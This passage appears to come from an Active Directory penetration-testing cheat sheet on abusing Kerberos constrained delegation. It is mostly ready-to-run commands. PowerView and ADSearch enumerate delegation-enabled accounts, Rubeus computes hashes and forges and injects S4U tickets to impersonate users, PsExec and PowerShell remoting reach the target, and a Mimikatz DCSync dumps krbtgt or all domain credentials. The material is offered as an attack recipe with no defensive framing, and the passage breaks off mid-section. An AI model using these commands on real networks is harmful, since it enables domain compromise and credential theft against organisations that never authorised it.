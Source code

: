 ````
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

#### Enumerate computers with contrained delegation enabled
- Use the ```-domain``` flag to check for other domains
```
Get-Domaincomputer -TrustedToAuth
Get-Domaincomputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

```
.\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json
```

### Constrained delegation User
#### Rubeus calculate password hash
- If only password is available calculate the hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```


#### Check for user to impersonate
```
Get-DomainUser | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Rubeus request and inject TGT + TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right. 
- Make sure they are local admin on the target machine.
```
.\Rubeus.exe s4u /user:<USERNAME> /rc4:<NTLM HASH> /impersonateuser:<USER> /domain:<DOMAIN> /msdsspn:<SERVICE ALLOWED TO DELEGATE>/<SERVER FQDN> /altservice:<SECOND SERVICE> /<SERVER FQDN> /ptt
```

#### Check access on target machine
```
ls \\<FQDN>\c$
Enter-PSSession -ComputerName <FQDN>
 .\PsExec64.exe \\<COMPUTERNAME> cmd
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Constrained delegation Computer
#### Rubeus request and inject TGT + TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe s4u /impersonateuser:<USER> /msdsspn:cifs/<FQDN COMPUTER> /user:<COMPUTER>$ /aes256:<AES HASH> /opsec /altservice:<SECOND SERVICE> /ptt 
.\Rubeus.exe s4u /impersonateuser:<USER> /msdsspn:cifs/<FQDN COMPUTER> /user:<COMPUTER>$ /rc4:<NTLM> /altservice:<SECOND SERVICE> /ptt 
```

#### Check access on target machine
```
````